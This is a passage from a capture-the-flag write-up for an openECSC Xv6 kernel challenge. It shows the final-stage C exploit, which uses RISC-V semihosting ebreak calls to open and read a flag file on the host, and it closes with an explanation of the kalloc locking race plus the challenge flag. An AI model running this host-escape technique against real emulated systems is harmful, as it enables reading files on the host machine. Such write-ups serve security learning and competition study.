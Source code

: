 {{< code language="c" title="Stage 5" id="12" expand="Show" collapse="Hide" isCollapsed="false" >}}
#define SH_SYS_OPEN 0x01
#define SH_SYS_READ 0x06

static inline int __attribute__((always_inline)) sys_sh(int reason, void *argPack)
{
    register int value asm("a0") = reason;
    register void *ptr asm("a1") = argPack;
    asm volatile(
        " .balign 16    \n"
        " .option push \n"
        " .option norvc \n"
        " slli x0, x0, 0x1f \n"
        " ebreak \n"
        " srai x0, x0,  0x7 \n"
        " .option pop \n"
        : "=r"(value)
        : "0"(value), "r"(ptr)
        : "memory");
    return value;
}

void pwn()
{
    void (*printf)(const char *, ...) = (void *)0x0000000080000596;

    printf("[*] Stage 5: Arbitrary code execution\n");

    char *flag_path = "/home/user/flag\x00";
    char *flag_buffer = (char *)0x80008d00;

    void *args[] = {(uint64 *)flag_path, (uint64 *)0x0, (uint64 *)15};

    int fd = sys_sh(SH_SYS_OPEN, args);

    void *args1[] = {(uint64 *)(uint64)fd, (uint64 *)flag_buffer, (uint64 *)0x20};

    sys_sh(SH_SYS_READ, args1);

    printf("Got flag?! %s\n", (char *)flag_buffer);

    for (;;) {}
}
{{< /code >}}

## Conclusion

This challenge was very enjoyable because, despite the abundance of material on the Xv6 operating system, I found almost no documented strategies for exploiting its possible kernel bugs. However, this is cool because it means the challenge is unique and original.

To conclude this writeup, let me answer to the questions in the challenge description 🥸:

1. What symptoms do you expect to see?
    - The symptoms we expect to see include potential race conditions leading to memory corruption or unexpected behavior due to concurrent memory allocation and process creation.
2. When you run xv6, do you see these symptoms?
    - Yes, we've observed symptoms that indicate that if two processes running concurrently may improperly allocate the same physical page of memory. This issue arises due to the lack of locking mechanisms to ensure mutual exclusion when allocating memory. Reintegrating the lock into `kalloc` would prevent this scenario from occurring.
3. How about when running `usertests`?
    - When running `usertests`, we encounter a kernel panic specifically in the `reparent2` test. This test makes heavy use of the `fork` function to create multiple concurrent processes. Consequently, it's plausible that during the process allocation phase, some processes end up sharing the same physical page of memory. This sharing is likely to cause the observed kernel panic.

> openECSC{gg_wp_0adb3e38}
